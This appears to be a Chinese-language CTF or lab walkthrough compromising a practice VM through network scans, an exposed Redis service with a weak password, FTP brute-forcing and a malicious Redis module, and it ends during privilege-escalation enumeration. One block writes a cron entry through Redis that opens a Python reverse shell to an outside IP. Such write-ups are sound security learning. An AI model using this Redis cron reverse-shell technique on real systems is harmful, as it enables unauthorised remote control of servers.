## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       VMware, Inc.
192.168.26.2    00:50:56:e8:d4:e1       VMware, Inc.
192.168.26.185  00:0c:29:85:80:75       VMware, Inc.
192.168.26.254  00:50:56:e8:96:d1       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.592 seconds (98.77 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-20 00:29 EST
Nmap scan report for 192.168.26.185 (192.168.26.185)
Host is up (0.0046s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
2121/tcp open  ftp     pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.26.185:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
6379/tcp open  redis   Redis key-value store
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.9.2)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: SimpleHTTP/0.6 Python/3.9.2
MAC Address: 00:0C:29:85:80:75 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.57 seconds
```

## 获取Webshell

  
  

  

>redis可以用某个命令查那个历史，一时间忘了
>

  

>扫8000目录吧，看看ftp有啥线索
>

```
└─# nc 192.168.26.185 2121   
220 pyftpdlib 1.5.6 ready.
└─# curl http://192.168.26.185:2121                               
curl: (1) Received HTTP/0.9 when not allowed
                                           
┌──(root㉿LingMj)-[/home/lingmj]
└─# curl http://192.168.26.185:8000  
:)
                                          
┌──(root㉿LingMj)-[/home/lingmj]
└─# 
```

>目前来看没有不过查资料有brute
>
  
  

>应该能快点
>
  
  

```
└─# redis-cli -h 192.168.26.185 -a bonjour
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
192.168.26.185:6379> info
# Server
redis_version:6.0.16
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:6d95e1af3a2c082a
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:473
run_id:0902df0db9a4cd173422e342dbb454f48dca6de3
tcp_port:6379
uptime_in_seconds:12397
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:9311893
executable:/usr/bin/redis-server
config_file:
io_threads_active:0

# Clients
connected_clients:1
client_recent_max_input_buffer:8
client_recent_max_output_buffer:0
blocked_clients:0
tracking_clients:0
clients_in_timeout_table:0

# Memory
used_memory:874024
used_memory_human:853.54K
used_memory_rss:15777792
used_memory_rss_human:15.05M
used_memory_peak:1801976
used_memory_peak_human:1.72M
used_memory_peak_perc:48.50%
used_memory_overhead:830152
used_memory_startup:809656
used_memory_dataset:43872
used_memory_dataset_perc:68.16%
allocator_allocated:1479488
allocator_active:1900544
allocator_resident:4239360
total_system_memory:1023827968
total_system_memory_human:976.40M
used_memory_lua:41984
used_memory_lua_human:41.00K
used_memory_scripts:0
used_memory_scripts_human:0B
number_of_cached_scripts:0
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.28
allocator_frag_bytes:421056
allocator_rss_ratio:2.23
allocator_rss_bytes:2338816
rss_overhead_ratio:3.72
rss_overhead_bytes:11538432
mem_fragmentation_ratio:18.98
mem_fragmentation_bytes:14946288
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:20496
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:0
rdb_bgsave_in_progress:0
rdb_last_save_time:1737352744
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0
module_fork_in_progress:0
module_fork_last_cow_size:0

# Stats
total_connections_received:37
total_commands_processed:2921
instantaneous_ops_per_sec:0
total_net_input_bytes:78677
total_net_output_bytes:144541
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
expire_cycle_cpu_milliseconds:80
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0
tracking_total_keys:0
tracking_total_items:0
tracking_total_prefixes:0
unexpected_error_replies:0
total_reads_processed:2968
total_writes_processed:2931
io_threaded_reads_processed:0
io_threaded_writes_processed:0

# Replication
role:master
connected_slaves:0
master_replid:4d48275fde4fb234bd02b65c0199a20eed542ec1
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:10.254403
used_cpu_user:4.744104
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Modules

# Cluster
cluster_enabled:0

# Keyspace
```

  

>ok 可以反弹shell了
>

  
  

>有点意外奥，不能执行php
>

  

>是一个python，我应该上传什么解析python呢，先试试直接python
>

  
  

>突然想到一个问题这个python全是'+"怎么set不了，只能看看传文件
>
  



>找到个东西
>

```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK

```

  
  

>拿一下工具，没啥思路，实在不行去看wp了
>

>首先我们手上有一个密码，可以尝试ftp爆破用户名登录ftp
>
  

>爆破一手
>

  

>差点跑过了
>
  

>不知道目录在那，根据查到的工具上传这个so可以使redis执行system。先上传吧
>
  
  

>这里可以看到它可以检查目录，这里选择了看wp，用得蒙圈
>

>了解了大概意思，脚本的话不写也没关系，我有一个手测试的方案。
>

  
  

>不过不巧的事我kali没找到正确路径，正确路径根据wp是/srv/ftp
>

  
  
  

  

>好了
>

## 提权

```
ben@system:/home/ben$ ls -al
total 32
drwx------ 3 ben  ben  4096 May  6  2024 .
drwxr-xr-x 3 root root 4096 May  6  2024 ..
lrwxrwxrwx 1 root root    9 Jul 19  2022 .bash_history -> /dev/null
-rwx------ 1 ben  ben   220 Jul 19  2022 .bash_logout
-rwx------ 1 ben  ben  3526 Jul 19  2022 .bashrc
drwxr-xr-x 3 ben  ben  4096 May  6  2024 .local
-rwx------ 1 ben  ben   807 Jul 19  2022 .profile
-rw-r--r-- 1 ben  ben    66 Jul 19  2022 .selected_editor
-r-------- 1 ben  ben    33 May  6  2024 user.txt
ben@system:/home/ben$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for ben: 
sudo: a password is required
ben@system:/home/ben$ 
```
  

>不存在sudo -l，并且无多余用户，利用工具找找线索
>

```
ben@system:/home/ben$ cat .bash
.bash_history  .bash_logout   .bashrc        
ben@system:/home/ben$ cat .bash_logout 
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
ben@system:/home/ben$ cat .bashrc      
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

# don't put duplicate lines or lines starting with space in the history.
# See bash(1) for more options
HISTCONTROL=ignoreboth

# append to the history file, don't overwrite it
shopt -s histappend

# for setting history length see HISTSIZE and HISTFILESIZE in bash(1)
HISTSIZE=1000
HISTFILESIZE=2000

# check the window size after each command and, if necessary,
# update the values of LINES and COLUMNS.
shopt -s checkwinsize

# If set, the pattern "**" used in a pathname expansion context will
# match all files and zero or more directories and subdirectories.
#shopt -s globstar

# make less more friendly for non-text input files, see lesspipe(1)
#[ -x /usr/bin/lesspipe ] && eval "$(SHELL=/bin/sh lesspipe)"

# set variable identifying the chroot you work in (used in the prompt below)
if [ -z "${debian_chroot:-}" ] && [ -r /etc/debian_chroot ]; then
    debian_chroot=$(cat /etc/debian_chroot)
fi

# set a fancy prompt (non-color, unless we know we "want" color)
case "$TERM" in
    xterm-color|*-256color) color_prompt=yes;;
esac

# uncomment for a colored prompt, if the terminal has the capability; turned
# off by default to not distract the user: the focus in a terminal window
# should be on the output of commands, not on the prompt
#force_color_prompt=yes

if [ -n "$force_color_prompt" ]; then
    if [ -x /usr/bin/tput ] && tput setaf 1 >&/dev/null; then
        # We have color support; assume it's compliant with Ecma-48
        # (ISO/IEC-6429). (Lack of such support is extremely rare, and such
        # a case would tend to support setf rather than setaf.)
        color_prompt=yes
    else
        color_prompt=
    fi
fi

if [ "$color_prompt" = yes ]; then
    PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
else
    PS1='${debian_chroot:+($debian_chroot)}\u@\h:\w\$ '
fi
unset color_prompt force_color_prompt

# If this is an xterm set the title to user@host:dir
case "$TERM" in
xterm*|rxvt*)
    PS1="\[\e]0;${debian_chroot:+($debian_chroot)}\u@\h: \w\a\]$PS1"
    ;;
*)
    ;;
esac

# enable color support of ls and also add handy aliases
if [ -x /usr/bin/dircolors ]; then
    test -r ~/.dircolors && eval "$(dircolors -b ~/.dircolors)" || eval "$(dircolors -b)"
    alias ls='ls --color=auto'
    #alias dir='dir --color=auto'
    #alias vdir='vdir --color=auto'

    #alias grep='grep --color=auto'
    #alias fgrep='fgrep --color=auto'
    #alias egrep='egrep --color=auto'
fi

# colored GCC warnings and errors
#export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'

# some more ls aliases
#alias ll='ls -l'
#alias la='ls -A'
#alias l='ls -CF'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
ben@system:/home/ben$ ls -al
total 32
drwx------ 3 ben  ben  4096 May  6  2024 .
